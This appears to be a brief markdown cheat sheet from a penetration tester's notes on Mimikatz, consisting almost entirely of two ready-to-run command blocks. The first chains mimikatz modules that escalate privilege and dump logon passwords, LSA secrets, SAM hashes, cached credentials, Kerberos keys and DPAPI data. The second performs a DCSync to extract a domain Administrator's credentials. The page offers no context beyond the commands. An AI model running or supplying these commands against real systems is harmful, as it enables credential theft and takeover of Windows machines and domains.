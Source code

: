 # Mimikatz


## Oneline

```
mimikatz.exe "privilege::debug" "sekurlsa::dpapi" "token::elevate" "sekurlsa::logonpasswords" "lsadump::lsa /inject" "lsadump::sam" "lsadump::cache" "sekurlsa::ekeys" "exit"
```

## DCSync

```
lsadump::dcsync /user:sub\Administrator /domain:sub.manesec.com
```